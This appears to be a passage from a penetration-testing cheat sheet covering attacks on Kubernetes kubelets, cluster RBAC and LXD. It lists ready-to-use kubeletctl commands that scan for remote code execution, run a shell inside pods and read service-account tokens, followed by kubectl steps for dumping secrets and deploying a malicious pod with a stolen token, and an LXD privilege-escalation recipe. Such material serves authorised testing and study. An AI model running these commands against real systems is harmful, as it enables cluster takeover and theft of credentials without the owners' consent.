 ## kubeletctl

> https://github.com/cyberark/kubeletctl

```c
$ kubeletctl pods -s <RHOST>
$ kubeletctl runningpods -s <RHOST>
$ kubeletctl runningpods -s <RHOST> | jq -c '.items[].metadata | [.name, .namespace]'
$ kubeletctl -s <RHOST> scan rce
$ kubeletctl -s <RHOST> exec "id" -p <POD> -c <CONTAINER>
$ kubeletctl -s <RHOST> exec "/bin/bash" -p <POD> -c <CONTAINER>
$ kubeletctl -s <RHOST> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <POD> -c <CONTAINER>
```

## Kubernetes

### API RBAC Attack

```c
$ kubectl get namespaces
$ kubectl get pods --all-namespaces -o wide
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pod <POD> -n <NAMESPACE>
$ kubectl -n <NAMESPACE> --token=<TOKEN> auth can-i --list
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets/<SECRET> -n <NAMESPACE>
$ kubectl --token=<TOKEN> cluster-info
$ kubectl --token=<TOKEN> auth can-i create pod
$ kubectl create -f <BADPOD>.yaml --token=<TOKEN>
```

## LXD

> https://github.com/saghul/lxd-alpine-builder

### Privilege Escalation

```c
$ sudo ./build-alpine
```

or

```c
$ sudo ./build-alpine -a i686
```

### Configuration

```c
$ lxd init
```
